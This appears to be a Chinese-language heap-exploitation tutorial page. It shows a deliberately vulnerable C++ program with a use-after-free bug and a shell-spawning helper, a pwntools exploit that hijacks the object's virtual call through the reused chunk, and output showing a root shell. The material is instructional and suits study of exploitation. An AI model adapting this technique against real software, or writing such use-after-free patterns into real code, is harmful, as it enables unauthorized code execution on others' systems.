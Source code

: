 ```c++

class A {
    public:
        virtual void print() {
            puts("class A");
        }
};

class B: public A {
    public:
        void print() {
            puts("Class B");
        }
};

void sh() {
    system("sh");
}

char buf[0x20];

int main() {
    setvbuf(stdout, 0, _IONBF, 0);

    A *p = new B();//malloc
    delete p;//free
    fgets(buf, sizeof(buf), stdin);
    char *q = strdup(buf);//malloc

    p->print();
}
```
编译
```bash
g++ uaf.cpp -o uaf -g
```
最终的exp
```python
#!/usr/bin/env python
from pwn import *
p = process('./uaf')
elf = ELF('./uaf')
buf = elf.symbols['buf']
sh = elf.symbols['_Z2shv']	
# gdb.attach(p)
payload = (p64(buf + 8) + p64(sh)).ljust(0x20)
p.send(payload)
p.interactive()
```
最终的结果
```bash
 python uafexp.py 
[+] Starting local process './uaf': pid 1417
[*] '/root/sploitfun/w10/uaf'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) 组=0(root)
```
